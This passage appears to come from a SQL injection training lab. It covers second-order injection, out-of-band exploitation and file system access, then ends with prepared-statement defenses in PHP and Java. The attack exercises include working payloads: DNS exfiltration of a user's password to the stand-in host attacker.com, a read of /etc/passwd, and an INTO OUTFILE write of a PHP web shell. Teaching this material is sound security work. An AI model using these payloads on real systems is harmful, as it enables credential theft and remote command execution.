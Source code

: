 ## Part 4: Advanced Exploitation

### Exercise 4.1: Second-Order SQL Injection
```php
// Registration (stores malicious input)
Username: admin'--
Password: password123

// Later query (executes injection)
$query = "SELECT * FROM messages WHERE recipient = '$username'";
```

### Exercise 4.2: Out-of-Band Exploitation
DNS exfiltration:
```sql
-- MySQL (Windows)
' OR LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\a')) --

-- SQL Server
'; EXEC master..xp_dirtree '\\' + (SELECT TOP 1 password FROM users) + '.attacker.com\a' --
```

### Exercise 4.3: File System Access
```sql
-- Read files (MySQL)
' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3 --

-- Write files (MySQL)
' UNION SELECT 1, '<?php system($_GET["cmd"]); ?>', 3 INTO OUTFILE '/var/www/html/shell.php' --
```

## Part 5: Defense Mechanisms

### Exercise 5.1: Prepared Statements
Secure code examples:

**PHP with PDO:**
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```

**Java with PreparedStatement:**
```java
String sql = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement pstmt = connection.prepareStatement(sql);
pstmt.setString(1, username);
pstmt.setString(2, password);
ResultSet rs = pstmt.executeQuery();
```
